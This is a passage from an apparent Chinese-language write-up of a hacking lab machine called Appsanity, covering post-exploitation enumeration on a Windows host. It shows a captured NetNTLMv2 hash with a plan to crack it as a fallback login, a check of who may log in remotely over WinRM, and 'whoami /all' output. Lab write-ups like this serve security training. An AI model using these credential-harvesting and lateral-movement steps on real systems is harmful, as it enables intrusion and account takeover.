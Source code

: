    ②发现本地TCP 100端口上运行着ReportManagement

   ![image-20231030120434569](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311161144751.png)

   ③找到了svc_exampanel用户的哈希，可以尝试破解，如果该用户可以登录的话，如果我们意外丢失了shell可以利用凭证快速登录

   ```
   Version: NetNTLMv2
     Hash:    svc_exampanel::APPSANITY:1122334455667788:2bbb47e37dc280c5ed854b8f163d88e3:0101000000000000ea32c311e30ada014e9fde5914fa3c78000000000800300030000000000000000000000000200000f3606b8563a96598fc8426891a83ab740e5210c8c4a52e155f4d6ba4b58034df0a00100000000000000000000000000000000000090000000000000000000000 
   ```

   这边我发现svc_exampanel用户不属于远程管理组，因此无法无法通过PTH利用winrm登录，只有devdoc用户属于远程管理组

   ```
   C:\Users>net localgroup "Remote Management Users"
   net localgroup "Remote Management Users"
   Alias name     Remote Management Users
   Comment        Members of this group can access WMI resources over management protocols (such as WS-Management via the Windows Remote Management service). This applies only to WMI namespaces that grant access to the user.
   
   Members
   
   -------------------------------------------------------------------------------
   devdoc
   The command completed successfully.
   ```

   ④查看当前svc_exampanel用户的详细信息

   ```
   C:\Users\svc_exampanel\Pictures>whoami /all
   whoami /all
   
   USER INFORMATION
   ----------------
   
   User Name               SID                                           
   ======================= ==============================================
   appsanity\svc_exampanel S-1-5-21-4111732528-4035850170-1619654654-1007
   
   
   GROUP INFORMATION
   -----------------
   
   Group Name                             Type             SID                                                            Attributes                                        
   ====================================== ================ ============================================================== ==================================================
   Everyone                               Well-known group S-1-1-0                                                        Mandatory group, Enabled by default, Enabled group
   BUILTIN\Users                          Alias            S-1-5-32-545                                                   Mandatory group, Enabled by default, Enabled group
   NT AUTHORITY\BATCH                     Well-known group S-1-5-3                                                        Mandatory group, Enabled by default, Enabled group
   CONSOLE LOGON                          Well-known group S-1-2-1                                                        Mandatory group, Enabled by default, Enabled group
   NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                       Mandatory group, Enabled by default, Enabled group
   NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                       Mandatory group, Enabled by default, Enabled group
   NT AUTHORITY\Local account             Well-known group S-1-5-113                                                      Mandatory group, Enabled by default, Enabled group
   ```